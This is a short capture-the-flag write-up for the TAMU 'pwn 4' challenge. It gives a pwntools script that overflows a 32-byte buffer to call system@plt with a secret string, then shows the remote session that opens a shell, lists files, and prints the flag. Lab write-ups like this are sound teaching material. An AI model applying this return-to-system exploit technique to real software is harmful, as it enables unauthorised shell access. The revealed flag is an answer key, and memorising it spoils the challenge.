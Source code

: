 # **pwn 4**

#### tag : pwnable

-----------------------------------------------

#### Description

>nc pwn.ctf.tamu.edu 4324

-----------------------------------------------

#### Solution

~~~

from pwn import *

DEBUG = False

if DEBUG:
	r = process('./pwn4')
	context.log_level = 'debug'
else:
	r = remote('pwn.ctf.tamu.edu', 4324)

system_plt = 0x08048430
secret = 0x0804A038

payload = ''
payload += 'a' * 32
payload += p32(system_plt)
payload += 'a' * 4
payload += p32(secret)

r.recvuntil('> ')
r.sendline(payload)
r.recvuntil('Command\n\n')
r.interactive()

~~~

~~~

[+] Opening connection to pwn.ctf.tamu.edu on port 4324: Done
[*] Switching to interactive mode
$ ls
flag.txt
pwn4
$ cat ./flag.txt
gigem{b4ck_70_7h3_l1br4ry}

~~~

**gigem{b4ck_70_7h3_l1br4ry}**

